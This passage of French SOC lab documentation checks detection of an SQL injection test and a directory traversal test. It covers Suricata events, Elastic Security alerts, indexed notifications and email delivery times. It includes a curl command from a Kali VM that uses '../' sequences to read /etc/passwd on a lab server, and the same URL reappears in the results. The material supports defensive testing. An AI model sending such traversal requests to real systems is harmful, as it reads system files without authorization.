  "message": "Une tentative d'injection SQL a été détectée sur le formulaire de connexion."
}
```

La notification est datée de **13:06:48.209 en UTC−4**.

Sur Ubuntu, rechercher les passages du relais avec les heures locales du serveur :

```bash
sudo journalctl -u soc-notifications.service \
  --since "2026-10-01 13:05:00" \
  --until "2026-10-01 13:12:00" --no-pager
```

Extrait du journal :

```text
oct. 01 13:06:53 server systemd[1]: Starting soc-notifications.service - Envoi des alertes SOC par courriel...
oct. 01 13:07:05 server python3[21862]: Courriel envoyé pour : Tentative d'injection SQL
oct. 01 13:07:05 server systemd[1]: soc-notifications.service: Deactivated successfully.
oct. 01 13:07:05 server systemd[1]: Finished soc-notifications.service - Envoi des alertes SOC par courriel.
```

Le relais annonce l’envoi environ **16,8 secondes après la notification**, avec le même nom de règle.

#### Réception du courriel



Le courriel porte l'objet **Alerte SOC — Tentative d'injection SQL**, avec l'expéditeur affiché **Ne pas répondre - Alertes SOC**. La messagerie affiche le **1er octobre 2026 à 13:07**, avec une précision à la minute. Le corps reprend le scénario **Injection SQL**, la date **2026-10-01T17:06:48.209Z** et l'identifiant :

```text
345ca78de71cf418e66c9c3c40d40307dd8ad3628bce6bd226984362093b0b49
```

La date et l’`alert_id` correspondent au document indexé. Le message explique le risque de contournement de l’authentification ; la notification repose sur la détection IDS.

| Étape | Heure le 1er octobre 2026 en UTC−4 |
| --- | --- |
| Événement Suricata | 13:06:33.927 |
| Alerte Elastic Security | 13:06:47.900 |
| Document lab-notifications | 13:06:48.209 |
| Envoi annoncé par le relais | 13:07:05 |
| Réception affichée | 13:07, précision à la minute |

### 6.6. Critères de validation du scénario SQLi

| Étape | Preuve obtenue |
| --- | --- |
| Réponse applicative | HTTP 302 vers admin.php ; le contenu de la page après redirection n'est pas affiché |
| Collecte | Événement Suricata SID 1000004 à 13:06:33.927 dans Discover |
| Détection | Alerte à 13:06:47.900, avec les IP du test et le SID 1000004 |
| Notification | Document lab-notifications à 13:06:48.209 |
| Envoi | Journal du relais : courriel envoyé à 13:07:05 |
| Réception | Courriel reçu avec la même date et le même alert_id |

## 7. Reproduire le scénario de traversée de répertoires

### 7.1. Préparer le test

Le serveur Ubuntu `192.168.56.10` héberge `/var/www/html/apptest/download.php`. Le script construit le chemin à partir de `/var/www/html/apptest/files/` et du paramètre GET `file`. La lecture normale de `public.txt` est illustrée dans [la documentation de l’application](05-application-web.md).

Vérifier que la collecte Suricata/syslog-ng fonctionne et que la règle Elastic Security **Tentative de traversée de répertoires** est active. Sa configuration est décrite en section 6 du [guide des détections](06-configuration-detection.md) : elle sélectionne les événements IDS de type `alert` portant le SID **100005**.

### 7.2. Lancer le test depuis Kali

```bash
clear
date -Is
curl -i --max-time 10 \
  'http://192.168.56.10/apptest/download.php?file=../../../../../etc/passwd'
date -Is
```

Le paramètre `file` contient cinq séquences `../`. Depuis `/var/www/html/apptest/files/`, elles remontent successivement vers `apptest/`, `html/`, `www/`, `var/`, puis la racine `/`. Le chemin obtenu désigne donc `/etc/passwd`.

L’option `-i` affiche les en-têtes HTTP avec le corps de la réponse ; `--max-time 10` limite la durée totale de curl à dix secondes. Les commandes `date -Is` fournissent des repères pour retrouver les événements dans Kibana.



La commande contient cinq remontées vers `/etc/passwd`. Kali affiche **2026-10-01T21:17:37-04:00**. Le serveur répond **HTTP 200** à **21:17:39 en UTC−4**, avec un type `text/plain` et une longueur annoncée de **1992 octets**. Le corps n’est pas visible : la capture ne permet pas de confirmer le contenu renvoyé.

### 7.3. Vérifier la détection dans Discover

Dans **Discover**, sélectionner la vue de données du laboratoire couvrant `lab-syslog-ids`, puis appliquer :

```kql
suricata.event_type: "alert" and suricata.alert.signature_id: 100005
```

Choisir le **1er octobre 2026, 21:16 à 21:22 en UTC−4**, soit le **2 octobre, 01:16 à 01:22 en UTC**.

Vérifier l’horodatage autour de **21:17:39 en UTC−4**, la source Kali `192.168.56.101`, la destination Ubuntu `192.168.56.10`, le port HTTP 80, le SID **100005** et l’URI demandée lorsqu’elle est disponible. Ces éléments relient l’événement IDS à la requête du test.



Discover affiche **un événement**, dans la période du test de 21:17 :

| Champ | Valeur visible | Lecture |
| --- | --- | --- |
| @timestamp | 1er octobre 2026, 21:17:39.468 | Heure de l’événement IDS |
| source.ip | 192.168.56.101 | VM Kali |
| destination.ip | 192.168.56.10 | Serveur Ubuntu |
| suricata.alert.signature | Tentative de traversee de repertoires | Signature déclenchée |
| suricata.http.url | /apptest/download.php?file=../../../../../etc/passwd | Ressource ciblée et cinq remontées de répertoire |

L’heure **21:17:39.468**, les IP et l’URL correspondent à la requête. Le filtre sélectionne le SID **100005**.

### 7.4. Vérifier l’alerte Elastic Security

Ouvrir la règle **Tentative de traversée de répertoires**, puis son onglet **Alertes**. Choisir le **1er octobre 2026, de 21:16 à 21:25 en UTC−4** (soit le **2 octobre, de 01:16 à 01:25 en UTC**). Retrouver l’alerte associée à l’événement IDS de **21:17:39.468** et vérifier son heure, le nom de règle, les IP et le SID **100005** dans les détails.



Une alerte de la règle **Tentative de traversée de répertoires** apparaît à **21:17:59.160**, de sévérité moyenne et de score 47.







| Élément | Valeur visible | Lecture |
| --- | --- | --- |
| Heure de l’alerte | 21:17:59.160 | 1er octobre 2026, en UTC−4 |
| Règle | Tentative de traversée de répertoires | Détection Elastic Security |
| source.ip | 192.168.56.101 | Kali |
| destination.ip | 192.168.56.10 | Ubuntu |
| suricata.alert.signature_id | 100005 | Signature locale de traversée |
| Sévérité / score | Medium / 47 | Priorité configurée |
| État | Open | Statut de traitement de l’alerte |

Les IP et le SID correspondent à l’événement IDS de **21:17:39.468**. L’alerte est produite **19,692 secondes** après celui-ci.

### 7.5. Vérifier la notification et le courriel

Dans **Kibana → Dev Tools**, rechercher les notifications du scénario :

```http
GET lab-notifications/_search
{
  "size": 10,
  "query": {
    "match_phrase": { "scenario": "Traversée de répertoires" }
  },
  "sort": [{ "@timestamp": "desc" }]
}
```

La recherche retourne huit notifications, dont le document suivant pour le test de 21:17 :

```json
{
  "@timestamp": "2026-10-02T01:17:59.230Z",
  "alert_id": "95f5b4970a914b21fa1cab24d51466af58e8c98d0ed666eec6a04c7457af9aed",
  "rule_name": "Tentative de traversée de répertoires",
  "scenario": "Traversée de répertoires",
  "message": "Une requête tente d'accéder à un fichier en dehors du répertoire prévu."
}
```

La notification est datée du **1er octobre 2026 à 21:17:59.230 en UTC−4**. Les sept autres documents proviennent de tests antérieurs.

Sur Ubuntu, consulter le journal du relais autour du test, avec les heures locales du serveur en UTC−4 :

```bash
sudo journalctl -u soc-notifications.service \
  --since "2026-10-01 21:17:00" \
  --until "2026-10-01 21:22:00" --no-pager
```

#### Envoi par le relais

Extrait du journal :

```text
oct. 01 21:18:11 server systemd[1]: Starting soc-notifications.service - Envoi des alertes SOC par courriel...
oct. 01 21:18:22 server python3[6576]: Courriel envoyé pour : Tentative de traversée de répertoires
oct. 01 21:18:22 server systemd[1]: soc-notifications.service: Deactivated successfully.
oct. 01 21:18:22 server systemd[1]: Finished soc-notifications.service - Envoi des alertes SOC par courriel.
```

Le relais annonce l’envoi à **21:18:22**, environ **22,8 secondes après la notification**.

#### Réception du courriel



**Résultat observé :** l’objet est **Alerte SOC — Tentative de traversée de répertoires** et l’expéditeur affiché **Ne pas répondre - Alertes SOC**. La messagerie indique le **1er octobre 2026 à 21:18**, avec une précision à la minute.

Le corps reprend le scénario **Traversée de répertoires**, le nom de règle, la date **2026-10-02T01:17:59.230Z** et l’identifiant :

```text
95f5b4970a914b21fa1cab24d51466af58e8c98d0ed666eec6a04c7457af9aed
```

La date et l’`alert_id` correspondent au document indexé.

Le message décrit le risque de lecture de fichiers hors du répertoire prévu et précise que l’alerte repose sur la requête détectée.

| Étape | Heure le 1er octobre 2026 en UTC−4 |
| --- | --- |
| Date Kali affichée avec la commande | 21:17:37 |
| Date de réponse HTTP | 21:17:39 |
| Événement Suricata dans Discover | 21:17:39.468 |
| Alerte Elastic Security | 21:17:59.160 |
| Notification indexée | 21:17:59.230 |
| Envoi annoncé par le relais | 21:18:22 |
| Réception affichée | 21:18, précision à la minute |

### 7.6. Critères de validation du scénario de traversée

| Étape | Preuve obtenue |
| --- | --- |
| Génération | Commande avec cinq séquences ../ ciblant /etc/passwd |
| Réponse applicative | HTTP 200 ; corps absent de la capture de cette tentative |
| Collecte | Événement IDS à 21:17:39.468 avec les IP et l’URL du test |
| Détection | Alerte à 21:17:59.160 avec les mêmes IP et le SID 100005 |
| Notification | Document lab-notifications à 21:17:59.230 |
| Envoi | Journal du relais à 21:18:22 |
| Réception | Courriel avec la même date et le même alert_id |
